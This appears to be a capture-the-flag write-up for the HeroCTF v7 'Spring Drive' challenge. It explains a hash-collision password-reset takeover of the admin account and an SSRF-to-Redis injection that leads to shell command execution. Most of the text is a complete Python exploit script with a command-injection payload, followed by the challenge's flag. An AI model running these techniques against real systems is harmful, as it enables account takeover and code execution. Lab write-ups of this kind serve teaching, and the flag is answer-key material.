


## HeroCTF v7 - Spring Drive Write-up



### Step 1: Vulnerability Analysis - Chaining Two Flaws

The exploit path is a two-stage process that first gains administrative privileges and then leverages those privileges to execute code.

**1. Weak Password Reset Token (Admin Account Takeover)**

The core of the authentication bypass lies in the password reset token's flawed `hashCode()` implementation:
```java
@Override
public int hashCode() {
    return token.hashCode() + email.hashCode();
}
```
The server validates reset requests by checking for a token with a matching UUID prefix and an identical combined hash code. This allows for a **"Meet-in-the-Middle" attack**:

1.  We register our own user to obtain a valid token (`UUID|OurUserID`).
2.  We forge a token for the admin using the same UUID but with the admin's ID (`UUID|1`).
3.  We mathematically find a "collision email" such that `Hash(ForgedToken) + Hash(CollisionEmail) == Hash(RealToken) + Hash(RealEmail)`.
4.  By submitting the forged token and collision email, we trick the server into resetting the admin's password.

**2. Redis Command Injection via SSRF (RCE)**

Once logged in as admin, we gain access to the `/file/remote-upload` endpoint. This feature is vulnerable to SSRF, but more importantly, the `httpMethod` parameter is not sanitized. This allows us to inject arbitrary data, including newlines, into the request line sent to an internal server.

We target the internal Redis service (`127.0.0.1:6379`) and inject a `RPUSH` command via the HTTP method. This pushes a malicious payload into the `clamav_queue`, which is monitored by the ClamAV scanning service. The service executes items from the queue using an unsanitized shell command:
`clamscan --quiet 'filePath'`

Our payload breaks out of the single quotes to execute a command that copies the flag to the web root, where it can be publicly accessed.

### Step 2: Full Automation with a Python Script

Chaining these vulnerabilities manually is complex and inefficient. A Python script was developed to automate the entire process: from registration and the meet-in-the-middle hash collision to the final RCE injection and flag retrieval.

#### The Exploit Script (`solve.py`)
```python
import requests
import string
import re
import sys
import time
import itertools
import random

BASE_URL = "http://dyn01.heroctf.fr:10154"

class C:
    CYAN = '\033[96m'
    GREEN = '\033[92m'
    YELLOW = '\033[93m'
    RED = '\033[91m'
    BOLD = '\033[1m'
    END = '\033[0m'

def log(msg, level="INFO"):
    if level == "INFO": print(f"[{C.CYAN}*{C.END}] {msg}")
    elif level == "OK": print(f"[{C.GREEN}+{C.END}] {msg}")
    elif level == "ERR":
        print(f"[{C.RED}-{C.END}] {msg}")
        sys.exit(1)

def java_hash(s: str) -> int:
    h = 0
    for c in s:
        h = (31 * h + ord(c)) & 0xFFFFFFFF
    return ((h + 0x80000000) & 0xFFFFFFFF) - 0x80000000

def find_collision_meet_in_the_middle(target_hash: int) -> str:
    log("Starting meet-in-the-middle attack to find hash collision...", "INFO")
    charset = string.ascii_lowercase + string.digits
    prefix_len, suffix_len, domain = 5, 4, "@c.com"

    log(f"Pre-calculating {len(charset)**prefix_len} prefix hashes...", "INFO")
    prefix_hashes = {java_hash("".join(p)): "".join(p) for p in itertools.product(charset, repeat=prefix_len)}
    
    log("Searching for a matching prefix/suffix combination...", "INFO")
    for s_tuple in itertools.product(charset, repeat=suffix_len):
        suffix = "".join(s_tuple)
        full_suffix = suffix + domain
        
        mod_inv = pow(31, -len(full_suffix), 2**32)
        h_full_suffix = java_hash(full_suffix)
        required_h = ((target_hash - h_full_suffix) * mod_inv) & 0xFFFFFFFF
        required_h = ((required_h + 0x80000000) & 0xFFFFFFFF) - 0x80000000

        if required_h in prefix_hashes:
            found_prefix = prefix_hashes[required_h]
            return found_prefix + full_suffix
            
    return None

class SpringDriveExploit:
    def __init__(self, url):
        self.url = url.rstrip('/')
        self.session = requests.Session()
        self.admin_password = "pwned_by_the_best"

    def run(self):
        log(f"Starting exploit for {self.url}", "INFO")
        email = self.register_user()
        real_token = self.get_reset_token(email)
        collision_email = self.calculate_collision(real_token, email)
        self.admin_takeover(collision_email, real_token)
        self.login_as_admin()
        self.inject_rce_payload()
        self.retrieve_flag_from_webroot()

    def register_user(self):
        username = "attacker_" + ''.join(random.choices(string.ascii_lowercase, k=6))
        email = username + "@x.com"
        password = "password12345"
        log(f"Step 1: Registering user {C.BOLD}{username}{C.END}...", "INFO")
        self.session.post(f"{self.url}/api/auth/register", json={"username": username, "email": email, "password": password, "confirmPassword": password})
        log("Registration successful.", "OK")
        return email

    def get_reset_token(self, email):
        log(f"Step 2: Getting reset token for {C.BOLD}{email}{C.END}...", "INFO")
        self.session.post(f"{self.url}/api/auth/send-password-reset", json={"email": email})
        r = self.session.get(f"{self.url}/api/auth/email")
        for line in reversed(r.json().get('data', [])):
            if email in line:
                token = line.split('token=')[1].split(',')[0]
                log(f"Token received: {C.BOLD}{token}{C.END}", "OK")
                return token
        log("Failed to find token.", "ERR")

    def calculate_collision(self, real_token, real_email):
        log("Step 3: Calculating hash collision for admin takeover...", "INFO")
        uuid_part = real_token.split('|')[0]
        forged_token = f"{uuid_part}|1"
        
        target_hash = (java_hash(real_token) + java_hash(real_email) - java_hash(forged_token)) & 0xFFFFFFFF
        if target_hash > 0x7FFFFFFF: target_hash -= 0x100000000
        
        found_email = find_collision_meet_in_the_middle(target_hash)
        if found_email:
            log(f"Collision found! Email: {C.BOLD}{found_email}{C.END}", "OK")
            return found_email
        log("Could not find a collision.", "ERR")

    def admin_takeover(self, collision_email, real_token):
        log(f"Step 4: Resetting admin password to '{C.BOLD}{self.admin_password}{C.END}'...", "INFO")
        forged_token = f"{real_token.split('|')[0]}|1"
        self.session.post(f"{self.url}/api/auth/reset-password", json={"email": collision_email, "token": forged_token, "password": self.admin_password})
        log("Admin password has been changed!", "OK")

    def login_as_admin(self):
        log("Step 5: Logging in as admin...", "INFO")
        self.session.post(f"{self.url}/api/auth/login", json={"username": "admin", "password": self.admin_password})
        log("Login successful.", "OK")

    def inject_rce_payload(self):
        log("Step 6: Injecting RCE to copy flag to the web root...", "INFO")
        command = f"' ; cp /app/flag*.txt /usr/share/nginx/html/flag.txt ; echo '"
        redis_command = f'RPUSH clamav_queue "{command}"'
        try:
            self.session.post(
                f"{self.url}/api/file/remote-upload",
                json={"url": "http://127.0.0.1:6379/", "filename": "ignored", "httpMethod": redis_command},
                timeout=3
            )
        except requests.exceptions.ReadTimeout:
            log("Payload sent to Redis (expected timeout).", "OK")

    def retrieve_flag_from_webroot(self):
        wait_time = 65
        log(f"Step 7: Waiting for cron job to execute ({wait_time} seconds)...")
        for i in range(wait_time, 0, -1):
            sys.stdout.write(f"\rTime remaining: {i:02d} seconds... ")
            sys.stdout.flush()
            time.sleep(1)
        print("\n")
        
        flag_url = f"{self.url}/flag.txt"
        log(f"Attempting to retrieve flag from {flag_url}...")
        try:
            r = requests.get(flag_url, timeout=10)
            if "Hero{" in r.text:
                log("FLAG SUCCESSFULLY RETRIEVED!", "OK")
                print(f"{C.GREEN}{C.BOLD}{'-'*50}\n{r.text.strip()}\n{'-'*50}{C.END}")
            else:
                log(f"Found /flag.txt, but it does not contain the flag. Content: {r.text[:100]}", "ERR")
        except requests.exceptions.RequestException as e:
            log(f"Could not retrieve /flag.txt. The RCE may have failed. Error: {e}", "ERR")

if __name__ == "__main__":
    exploit = SpringDriveExploit(BASE_URL)
    exploit.run()
```

### Step 3: Execution and Flag Retrieval

Running the script automates the entire attack. It registers a new user, calculates the necessary hash collision almost instantly, takes over the admin account, logs in, and injects the RCE payload into Redis. After waiting for the server's cron job to execute the malicious command, the script fetches the flag from the newly created `flag.txt` file in the web root.

The entire process is captured in the terminal output:



The script successfully navigates every stage of the complex exploit chain and delivers the flag.

### Flag
`Hero{8be9845ab07c17c7f0c503feb0d91184}`